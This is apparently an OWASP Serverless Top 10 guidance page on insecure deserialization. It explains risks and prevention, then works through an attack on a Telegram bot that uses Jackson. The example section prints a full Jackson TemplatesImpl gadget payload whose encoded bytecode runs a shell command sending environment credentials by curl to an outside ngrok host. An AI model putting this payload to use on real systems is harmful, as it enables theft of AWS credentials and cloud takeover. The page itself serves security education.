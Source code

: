 # A8:2017 Insecure Deserialization

## Attack Vectors

Dynamic languages like Python and NodeJS, together with the common use of JSON, a serialized data type, could make deserialization attacks a little more common in the serverless world.

## Security Weakness

Together with the possible attack vector, the fact that most functions use 3rd-party libraries to handle the (de)serialization of the data could introduce such weakness to our serverless application. Deserialization vulnerabilities are pretty common in Python (e.g. [pickle](http://xhyumiracle.com/python-pickle-injection)) and JavaScript ([node-serialize](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)). But could also be found in [.NET and Java](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf).

## Impact

As usual, the business impact depends on the application and the data it handles. Insecure deserialization usually results in running arbitrary code that could eventually lead to data leakage and, in severe cases, even resource and account control.

## How to Prevent

- Validate serialized objects, originating from any untrusted data (e.g. cloud storage, databases, emails, notifications, APIs) by enforcing strict type constraints before processing it.
- Review 3rd-party libraries for known deserialization vulnerabilities.
- It is also a good practice to monitor deserialization usage and exceptions to identify possible attacks.

## Example Attack Scenario

An application is using a Telegram chat Bot agent to provide information about movies. To do so, a function is triggered when text messages are received (via API GW), taking the input and returning data related to the requested movie using the Open Movie Database (OMDb) API. However, the JsonMapper class is using JSON deserialization, by calling jackson.databind.ObjectMapper.readValue() which is known to be vulnerable.

![Insecure Deserialization 1](images/0xa8-insecure-deserialization-1.png)

This allows any unauthenticated telegram user to send malicious content via text and without performing input validation. To exploit it, the attacker needs to send a Java serialized object in the telegram text which will be translated into a JSON as part of the Bot API request.

![Insecure Deserialization 2](images/0xa8-insecure-deserialization-2.png)

By using the following payload, attackers can steal AWS environment data such as `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY`, `AWS_SECURITY_TOKEN`, which could be used to create an AWS [AssumeRole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html) and access AWS resources.

```json
{ 'id': 124,
  'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
    {
    'transletBytecodes' :
  ['yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZG
  UBAA9MaW5lTnVtYmVyVGFibGUBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEACkV
  4Y2VwdGlvbnMHABgBAApTb3VyY2VGaWxlAQAMcGF5bG9hZC5qYXZhDAAHAAgHABkMABoAGw
  EAR2Vudj1gZW52fGJhc2U2NCAtLXdyYXA9MGA7IGN1cmwgaHR0cDovL3Byb3RlZ29sYWJzLm5nc
  m9rLmlvP2RhdGE9JHtlbnZ9DAAcAB0BAAdwYXlsb2FkAQAQamF2YS9sYW5nL09iamVjdAEAE2phd
  mEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxq
  YXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5n
  L1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQA
  KAAAABgABAAAAAQAJAAsADAACAAkAAAAmAAIAAgAAAAq4AAISA7YABEyxAAAAAQAKAAAACgA
  CAAAABAAJAAUADQAAAAQAAQAOAAEADwAAAAIAEA=='],
      'transletName' : 'a.b',
      'outputProperties' : { }
    }
  ]
}
```

When the code runs, it will launch a new process which will send the environment credentials to the attacker. This could eventually lead to invoking the function manually, providing it with any type of input which can end in a complete takeover of cloud resources, depending on the permissions of the function.

![Insecure Deserialization 3](images/0xa8-insecure-deserialization-3.png)